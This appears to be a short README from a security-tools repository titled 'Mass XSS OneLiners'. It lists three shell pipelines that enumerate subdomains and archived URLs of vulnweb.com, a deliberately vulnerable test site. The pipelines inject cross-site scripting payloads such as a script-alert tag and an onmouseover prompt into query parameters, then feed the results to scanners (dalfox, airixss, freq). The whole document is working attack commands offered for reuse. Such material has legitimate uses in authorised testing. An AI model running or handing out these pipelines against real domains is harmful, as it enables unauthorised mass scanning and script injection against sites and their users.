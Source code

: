 # Mass XSS OneLiners
- Dalfox XSS<br>
`subfinder -d vulnweb.com | httpx | katana -ps | gf xss | qsreplace | anew | dalfox pipe --skip-bav`
- AiriXSS Oneline<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | qsreplace '@x.y"><xss onmouSEOver=prompt(1337)>' | airixss -p 'prompt(1337)' | grep -v 'Not'`
- Freq XSS<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | gf xss | qsreplace '"><script>alert(1)</script>' | freq | grep -v 'Not'`
